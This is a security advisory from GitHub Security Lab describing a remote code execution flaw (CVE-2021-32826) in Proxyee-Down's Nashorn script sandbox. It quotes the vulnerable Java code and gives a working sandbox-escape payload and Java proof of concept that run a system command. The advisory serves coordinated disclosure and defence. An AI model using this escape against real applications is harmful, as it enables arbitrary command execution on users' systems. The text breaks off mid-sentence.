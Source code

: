 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">July 21, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2021-053: Remote code execution in Proxyee-Down - CVE-2021-32826</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2021-03-26: Issue reported to liwei-8466@qq.com</li>
  <li>2021-07-05: Deadline expired.</li>
  <li>2021-07-05: Publication as per our disclosure policy.</li>
</ul>

<h2 id="summary">Summary</h2>
<p>An attacker being able to provide an extension script (eg: through a MiTM attack or by hosting a malicious extension) may be able to run arbitrary commands on the system running Proxyee-Down.</p>

<h2 id="product">Product</h2>
<p>Proxyee-Down</p>

<h2 id="tested-version">Tested Version</h2>
<p>Version 3.4
Latest commit at the date of reporting: ec921c3 on 11 Aug 2020</p>

<h2 id="details">Details</h2>

<h3 id="insufficient-script-engine-sandboxing-ghsl-2021-053">Insufficient Script Engine sandboxing (GHSL-2021-053)</h3>

<p>Proxyee-Down uses <a href="https://github.com/proxyee-down-org/proxyee-down/blob/ec921c3c2ca6e205484ec52ab8a8649c8f882e5c/main/src/main/java/org/pdown/gui/extension/jsruntime/JavascriptEngine.java#L17-L38">Nashorn engine</a> to evaluate <a href="https://github.com/proxyee-down-org/proxyee-down/blob/ec921c3c2ca6e205484ec52ab8a8649c8f882e5c/main/src/main/java/org/pdown/gui/extension/util/ExtensionUtil.java#L173">1</a>,<a href="https://github.com/proxyee-down-org/proxyee-down/blob/ec921c3c2ca6e205484ec52ab8a8649c8f882e5c/main/src/main/java/org/pdown/gui/extension/util/ExtensionUtil.java#L176">2</a> Javascript code provided by extensions:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="kd">public</span> <span class="kd">static</span> <span class="nc">ScriptEngine</span> <span class="nf">buildEngine</span><span class="o">()</span> <span class="kd">throws</span> <span class="nc">ScriptException</span><span class="o">,</span> <span class="nc">NoSuchMethodException</span> <span class="o">{</span>
    <span class="nc">NashornScriptEngineFactory</span> <span class="n">factory</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">NashornScriptEngineFactory</span><span class="o">();</span>
    <span class="nc">ScriptEngine</span> <span class="n">engine</span> <span class="o">=</span> <span class="n">factory</span><span class="o">.</span><span class="na">getScriptEngine</span><span class="o">(</span><span class="k">new</span> <span class="nc">SafeClassFilter</span><span class="o">());</span>
    <span class="nc">Window</span> <span class="n">window</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">Window</span><span class="o">();</span>
    <span class="nc">Object</span> <span class="n">global</span> <span class="o">=</span> <span class="n">engine</span><span class="o">.</span><span class="na">eval</span><span class="o">(</span><span class="s">"this"</span><span class="o">);</span>
    <span class="nc">Object</span> <span class="n">jsObject</span> <span class="o">=</span> <span class="n">engine</span><span class="o">.</span><span class="na">eval</span><span class="o">(</span><span class="s">"Object"</span><span class="o">);</span>
    <span class="nc">Invocable</span> <span class="n">invocable</span> <span class="o">=</span> <span class="o">(</span><span class="nc">Invocable</span><span class="o">)</span> <span class="n">engine</span><span class="o">;</span>
    <span class="n">invocable</span><span class="o">.</span><span class="na">invokeMethod</span><span class="o">(</span><span class="n">jsObject</span><span class="o">,</span> <span class="s">"bindProperties"</span><span class="o">,</span> <span class="n">global</span><span class="o">,</span> <span class="n">window</span><span class="o">);</span>
    <span class="n">engine</span><span class="o">.</span><span class="na">eval</span><span class="o">(</span><span class="s">"var window = this"</span><span class="o">);</span>
    <span class="k">return</span> <span class="n">engine</span><span class="o">;</span>
  <span class="o">}</span>
</code></pre></div></div>

<p>The engine is configured to use a <code class="language-plaintext highlighter-rouge">ClassFilter</code> in order to <code class="language-plaintext highlighter-rouge">Prohibit any explicit call to java code</code> (<code class="language-plaintext highlighter-rouge">禁止任何显式调用java代码</code>):</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  <span class="cm">/**
   * 禁止任何显式调用java代码
   */</span>
  <span class="kd">private</span> <span class="kd">static</span> <span class="kd">class</span> <span class="nc">SafeClassFilter</span> <span class="kd">implements</span> <span class="nc">ClassFilter</span> <span class="o">{</span>

    <span class="nd">@Override</span>
    <span class="kd">public</span> <span class="kt">boolean</span> <span class="nf">exposeToScripts</span><span class="o">(</span><span class="nc">String</span> <span class="n">s</span><span class="o">)</span> <span class="o">{</span>
      <span class="k">return</span> <span class="kc">false</span><span class="o">;</span>
    <span class="o">}</span>
  <span class="o">}</span>
</code></pre></div></div>

<p>The filter above does not expose any Java classes to the Javascript scripts, but the <code class="language-plaintext highlighter-rouge">ClassFilter</code> on its own is not sufficient to prevent code execution since Nashorn exposes the underlying engine to the script and it is still possible to execute arbitrary code with it. For example, the script below will start a system process:</p>

<div class="language-javascript highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="k">this</span><span class="p">.</span><span class="nx">engine</span><span class="p">.</span><span class="nx">factory</span><span class="p">.</span><span class="nx">scriptEngine</span><span class="p">.</span><span class="nb">eval</span><span class="p">(</span><span class="dl">'</span><span class="s1">java.lang.Runtime.getRuntime().exec(</span><span class="se">\</span><span class="s1">"touch /tmp/pwned</span><span class="se">\</span><span class="s1">")</span><span class="dl">'</span><span class="p">)</span>
</code></pre></div></div>

<h4 id="impact">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">Remote Code Execution</code>.</p>

<h4 id="references">References</h4>
<ul>
  <li><a href="https://mbechler.github.io/2019/03/02/Beware-the-Nashorn/">Beware of the Nashorn</a></li>
</ul>

<h4 id="poc">PoC</h4>
<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="kn">import</span> <span class="nn">jdk.nashorn.api.scripting.ClassFilter</span><span class="o">;</span>
<span class="kn">import</span> <span class="nn">jdk.nashorn.api.scripting.NashornScriptEngineFactory</span><span class="o">;</span>

<span class="kn">import</span> <span class="nn">javax.script.ScriptEngine</span><span class="o">;</span>

<span class="kd">public</span> <span class="kd">class</span> <span class="nc">Test</span> <span class="o">{</span>
    <span class="kd">private</span> <span class="kd">static</span> <span class="kd">class</span> <span class="nc">SafeClassFilter</span> <span class="kd">implements</span> <span class="nc">ClassFilter</span> <span class="o">{</span>
        <span class="nd">@Override</span>
        <span class="kd">public</span> <span class="kt">boolean</span> <span class="nf">exposeToScripts</span><span class="o">(</span><span class="nc">String</span> <span class="n">s</span><span class="o">)</span> <span class="o">{</span>
            <span class="k">return</span> <span class="kc">false</span><span class="o">;</span>
        <span class="o">}</span>
    <span class="o">}</span>

    <span class="kd">public</span> <span class="kd">static</span> <span class="kt">void</span> <span class="nf">main</span><span class="o">(</span><span class="nc">String</span><span class="o">[]</span> <span class="n">args</span><span class="o">)</span> <span class="o">{</span>
        <span class="k">try</span> <span class="o">{</span>
            <span class="nc">NashornScriptEngineFactory</span> <span class="n">factory</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">NashornScriptEngineFactory</span><span class="o">();</span>
            <span class="nc">ScriptEngine</span> <span class="n">engine</span> <span class="o">=</span> <span class="n">factory</span><span class="o">.</span><span class="na">getScriptEngine</span><span class="o">(</span><span class="k">new</span> <span class="nc">SafeClassFilter</span><span class="o">());</span>
            <span class="nc">System</span><span class="o">.</span><span class="na">out</span><span class="o">.</span><span class="na">println</span><span class="o">(</span><span class="n">engine</span><span class="o">.</span><span class="na">eval</span><span class="o">(</span><span class="s">"this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec(\"touch /tmp/pwned\")')"</span><span class="o">));</span>
        <span class="o">}</span> <span class="k">catch</span><span class="o">(</span><span class="nc">Exception</span> <span class="n">e</span><span class="o">)</span> <span class="o">{}</span>
    <span class="o">}</span>
<span class="o">}</span>
</code></pre></div></div>

<h2 id="cve">CVE</h2>

<ul>
  <li>CVE-2021-32826</li>
</ul>

<h2 id="credit">Credit</h2>
<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>
<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2021-053</code> in any commu